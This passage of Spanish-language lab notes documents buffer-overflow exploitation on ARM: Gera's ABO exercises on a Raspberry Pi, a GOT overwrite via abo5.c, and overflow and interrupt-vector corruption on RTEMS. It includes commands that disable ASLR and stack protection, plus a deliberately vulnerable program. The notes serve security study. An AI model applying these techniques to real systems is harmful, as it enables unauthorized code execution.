  # Para debuggear agregar los flags: '-g', '1111',
  process = subprocess.Popen(['qemu-arm', '-L', '/usr/arm-linux-gnueabi/', './abo.out', sc])

  process.wait()
  exitCode = process.returncode
  print("Termino con: " + str(exitCode))


Raspberry Pi
------------

Se instaló Raspbian en una Raspberry Pi modelo B (512 RAM), que utiliza un micro ARM1176JZF-S. Este micro utiliza tanto ARM 32 bits como *Thumb* 16 bits (no se vio que soporte *Thumb 2* con el híbrido de 32/16 bits).

Como primer prueba se compiló el primer ABO para ver qué código generaba. El procedimiento es el mismo de antes pero ahora se utiliza las herramientas nativas de GCC, no fue necesario instalar ningún paquete extra.

.. code-block:: bash

    gcc -g3 -D_FORTIFY_SOURCE=0 -fno-stack-protector -Wformat=0 -Wl,-z,norelro \
        abo1.c -o abo1.out

El ASM generado fue:

.. code-block:: objdump

    0x83cc <main>                   push   {r11, lr}
    0x83d0 <main+4>                 add    r11, sp, #4
    0x83d4 <main+8>                 sub    sp, sp, #264    ; 0x108
    0x83d8 <main+12>                str    r0, [r11, #-264]        ; 0x108
    0x83dc <main+16>                str    r1, [r11, #-268]        ; 0x10c
    0x83e0 <main+20>                ldr    r3, [r11, #-268]        ; 0x10c
    0x83e4 <main+24>                add    r3, r3, #4
    0x83e8 <main+28>                ldr    r3, [r3]
    0x83ec <main+32>                sub    r2, r11, #260   ; 0x104
    0x83f0 <main+36>                mov    r0, r2
    0x83f4 <main+40>                mov    r1, r3
    0x83f8 <main+44>                bl     0x82f0 <strcpy>
    0x83fc <main+48>                mov    r0, r3
    0x8400 <main+52>                sub    sp, r11, #4
    0x8404 <main+56>                pop    {r11, pc}

El código anterior es el mostrado por GDB. Una de la cosas más importantes para notar es que todo está compilado en instrucciones de 32 bits (ARM). El FP es ahora el registro ``R11``, por estar en el estado ARM, mientras que en *Thumb Mode* el FP es ``R7``, según lo explicado en:

http://msdn.microsoft.com/en-us/library/ms253599(v=vs.80).aspx

El FP (``R11``) esta vez apunta a lo esperado, que es el SP antes de reservar el espacio (decrementar el SP). En QEMU ``R7`` (FP) apuntaba al mismo valor del SP luego de ser decrementado. Esto también puede deberse a que se están direccionando valores superiores a 256 (8 bits) con respecto a ``R11`` lo cuál probablemente no fuera posible en *Thumb*.

Más allá de estos detalles el diagrama de la pila es el mismo. Está el *buffer* de 256 bytes, ``R11`` (4 bytes) y LR, por lo que sigue valiendo el exploit anterior que sobreescribía un relleno de 260 bytes, y luego pisaba la dirección de retorno con la del mismo *buffer*. Lo único que hay que modificar es la dirección del *buffer*.

En este SO (Raspbian, derivado de Debian) están habilitadas las protecciones básicas como ASLR, que se desactiva con:

.. code-block:: bash

    sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

y la protección contra ejecución de código en la pila, que se desactiva agregando el flag de compilación ``-z execstack`` en GCC, quedando:

.. code-block:: bash

    gcc -g3 -D_FORTIFY_SOURCE=0 -fno-stack-protector -Wformat=0 -Wl,-z,norelro -z execstack \
        abo1.c -o abo1.out

..note:: Por alguna razón, la función ``execve`` del *payload* no funciona cuando se lo ejecuta dentro de GDB, pero si funciona si el ABO se ejecuta directamente. En este caso se agrego un ``printf`` al ABO que mostraba la dirección del *buffer* para saber a dónde debía saltar el PC para ejecutar el *payload*.


Corrupción de la GOT
--------------------

Con el ABO 5 se prueba la corrupción de la GOT para tomar control de la ejecución.

.. code-block:: c

    /* abo5.c                                                  *
     * specially crafted to feed your brain by gera@core-sdi.com */

    /* You take the blue pill, you wake up in your bed,    *
     *     and you believe what you want to believe        *
     * You take the red pill,                              *
     *     and I'll show you how deep goes the rabbit hole */

    int main(int argv,char **argc) {
        char *pbuf=malloc(strlen(argc[2])+1);
        char buf[256];

        strcpy(buf,argc[1]);
        for (;*pbuf++=*(argc[2]++););
        exit(1);
    }

Sobreescribiendo el contenido de ``pbuf`` al llamar a ``strcpy(buf,argc[1])`` se hace que apunte a la posición en la tabla GOT correspondiente a la función ``exit``. Observando el código ensamblador ``pbuf`` se encuentra justo despuès de ``buf`` por lo que la lógica será muy similar a los ejemplos anteriores.

Se carga el *payload* en ``buf`` y se completa el padding hasta los 256 bytes y luego se sobreescribe ``pbuf`` con la dirección de la GOT para ``exit``:

.. code-block:: c

    0x10704 <_GLOBAL_OFFSET_TABLE_+32>:     0x00008380

Que en este caso apunta a la propia PLT porque la función es llamada por primera vez y tiene que resolver el nombre. Como segundo parámetro de ``main`` se pasa la dirección del *buffer* a donde debe saltar PC. Como antes ``execve`` no funciona en GDB pero corriendo la aplicación sola con el ``printf`` para saber la dirección del *buffer* (que no es la misma que se ve cuando se ejecuta con GDB) puede probarse que el exploit funciona.


RTEMS
=====

Aquí se describen aspectos de explotación básicos en RTEMS. Inicialmente se trató de trabajar sobre una versión emulada de RTEMS sobre ARM pero resultó más sencillo cargarlo en un hardware real, la Raspberry Pi (RPi).

Los dos vectores de ataque hasta ahora investigados son el clásico *stack/heap overflow* y corrupción del vector de instrucciones.


Comunicación serie
------------------

El port de RTEMS para RPi solo tiene por ahora la consola serie (UART), por ende todas las explotaciones remotas (desarrolladas en Ruby ahora que se trabaja con el Metasploit Framework) deben poder utilizar el puerto serie. Para esto se utilizó la herramienta SerialPort:

* http://playground.arduino.cc/interfacing/ruby

En Ubuntu se la instala como

.. code-block:: bash

  sudo apt-get install ruby-serialport


*Stack/Heap overflow*: MMU y cache
----------------------------------

Al probar *stack* y *heap overflows* en este escenario falla por un problema con la cache de datos. El RPi habilita la MMU y el cache de datos (deshabilitados por defecto y que la mayoria de los BSP de ARM no habilitan) en el archivo ``bspstarthooks.c`` en la función ``bsp_start_hook_1``, al llamar a ``bsp_memory_management_initialize``. Por ahora se comenta esta función, el encargado el port a RPi (Alan Cudmore) dijo que no debería hacer falta más que eso para dejar deshabilitada la MMU.

.. code-block:: c

  void BSP_START_TEXT_SECTION bsp_start_hook_1(void)
  {
    bsp_start_copy_sections();
  //  bsp_memory_management_initialize();
    bsp_start_clear_bss();
  }

Se comprobó que la MMU quedaba deshabilitada con el comando:

.. code-block:: c

  __asm__ volatile (
      "MOV    r0, #0\n" //; Clear r0
      "MRC  p15, 0, r0, c1, c0, 0\n"  // ; Load Control Register
  );

Revisando el bit 0 (M) de R0, que estaba apagado, se confirmó según la documentación de ARM que la MMU no está funcionando.

También se comprobó que el problema estaba particularmente en la cache de datos al hacer un *Clean Entire Data Cache* con el comando:

.. code-block:: c

  __asm__ volatile (
      "MOV    r0, #0\n" //; Clear r0
      "MCR  p15, 0, r0, c7, c10, 0\n"  // ; Clean Entire Data Cache
  ::: "r0");

Aunque tampoco se pudo determinar exactamente cuál es la causa del problema, parecería haber una interferencia entre la cache de datos donde se escribe el *stack/heap*, y la cache de instrucciones que lee esa misma sección de memoria para interpretarla como instrucciones.


Corrupción del vector de interrupciones
---------------------------------------

Se estudió el tutorial:

http://doar-e.github.io/blog/2014/04/30/corrupting-arm-evt/

Se confirmó mediante pruebas básicas que se podía sobreescribir este vector sin problemas haciendo que interrupciones particulares sean dirigidos a direcciones de memoria con código inyectado por el atacante.
